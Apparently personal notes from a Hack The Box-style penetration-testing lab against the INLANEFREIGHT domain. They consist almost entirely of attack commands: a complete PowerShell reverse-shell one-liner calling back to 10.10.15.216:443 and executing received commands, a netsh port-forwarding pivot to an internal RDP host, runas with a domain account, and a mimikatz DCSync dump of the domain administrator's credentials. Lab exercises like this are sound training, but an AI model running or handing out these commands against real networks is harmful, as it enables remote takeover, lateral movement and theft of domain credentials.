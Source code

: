 ### Login in to the Web Shell
![[Pasted image 20240502160429.png]]

### Getting a Proper reverse Shell
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.15.216',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Getting the IP of MS01
```
Resolve-DnsName -Name MS01
```

### Adding a Pivot Rule
```
\netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.16.199 connectport=3389 connectaddress=172.16.6.50
```

### Checking the Rule
```
\netsh.exe interface portproxy show v4tov4
```

### Using runas
```
runas /netonly /user:INLANEFREIGHT\TPETTY powershell
```

### Performing DCSync Attack
```
PS C:\htb> .\mimikatz.exe

mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```